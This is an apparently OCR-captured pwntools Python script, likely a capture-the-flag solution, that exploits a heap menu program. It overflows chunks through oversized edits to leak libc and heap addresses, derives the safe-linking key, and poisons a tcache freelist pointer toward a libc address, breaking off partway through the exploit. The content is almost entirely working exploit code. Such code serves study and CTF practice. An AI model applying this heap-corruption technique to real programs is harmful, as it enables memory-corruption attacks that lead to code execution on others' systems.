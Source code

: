 ```python
def delete(idx):
    cmd(2)
    c.sendlineafter(b'idx:', str(idx).encode())
def show(idx):
    cmd(4)
    c.sendlineafter(b'idx:', str(idx).encode())
def edit(idx, size, data, line = True):
    cmd(3)
    c.sendlineafter(b'idx:', str(idx).encode())
    c.sendlineafter(b'size:', str(size).encode())
    if line: c.sendlineafter(b'content:', data)
    else: c.sendafter(b'content:', data)

add(0x318, b'')#0
add(0x318, b'')#1
add(0x418, b'')#2
add(0x318, b'')#3

delete(2)
edit(1, 0x320, cyclic(0x31f))
show(1)
libc.address = u64(c.recvuntil(b'\x7f')[-6:] + b'\0\0') - 0x21ace0
success(f"libcbase = {hex(libc.address)}")
edit(1, 0x320, b'\0' * 0x318 + p64(0x420), False)

for i in range(12):
    add(0x68, b'')#2 4-14

add(0x68, b'')#15
add(0x68, b'')#16
add(0x68, b'')#17
add(0x68, b'')#18
delete(16)
delete(17)
edit(15, 0x70 + 0x68, cyclic(0x6f + 0x68))
show(15)

c.recvuntil(b'daa\n')

heapbase = u64(c.recv(6) + b'\0\0') - 0x8b0 + 0x200
success(f"heapbase = {hex(heapbase)}")
key = heapbase >> 12
success(f"key = {hex(key)}")

add(0x28, b'')#16
add(0x28, b'')#17
add(0x28, b'')#19
add(0x28, b'')#20

add(0x28, b'')#21
add(0x28, b'')#22
add(0x28, b'')#23
add(0x28, b'')#24

delete(23)
delete(22)
info(f"{hex(libc.address + 0x222200 - 0x30)}")
edit(21, 0x38, cyclic(0x28) + flat(0x31, (libc.address + 0x222200 - 0x30) ^ key), False)
add(0x28, b'')#22
add(0x28, cyclic(0x27))#23
edit(23, 0x30, cyclic(0x30), False)
show(23)
c.recvuntil(b'laaa')
```